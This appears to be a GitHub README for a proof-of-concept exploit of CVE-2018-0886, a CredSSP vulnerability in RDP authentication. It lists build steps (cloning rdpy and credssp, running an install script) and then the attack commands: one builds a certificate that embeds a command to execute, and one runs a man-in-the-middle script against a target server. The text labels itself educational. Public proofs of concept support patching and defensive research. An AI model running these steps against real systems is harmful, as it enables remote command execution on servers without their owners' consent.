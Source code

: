 # credssp
A code demonstrating CVE-2018-0886

This is a code used for exploition this vulnerability, and it should be used for educational purposes only.

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ credssp/install/install.sh 
$ python rdpy/setup.py install
```

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain. Then: 


To generate a suitable certificate for the command to execute : 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -c exploitc.pem -k exploitk.pem CMD 
```

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```
